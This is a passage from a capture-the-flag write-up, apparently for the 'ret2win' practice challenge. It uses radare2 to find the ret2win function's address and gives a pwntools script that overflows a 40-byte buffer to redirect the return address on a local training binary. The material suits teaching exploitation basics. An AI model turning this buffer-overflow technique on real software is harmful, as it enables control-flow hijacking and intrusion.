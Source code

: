 Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/ret2win/x64-ret2win-addr.png)

So the address of `sym.ret2win` is `0x00400756`

### Debugging
We should have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# create payload
ret2win_addr = 0x00400756
# fill buffer + rbp
payload = b'A'*40
# adds the proper 64 bit padding
# and uses little endian
payload += p64(ret2win_addr)

# send payload
io = process('./ret2win')
io.sendline(payload)

# retrieve output
print(io.recvall())
```
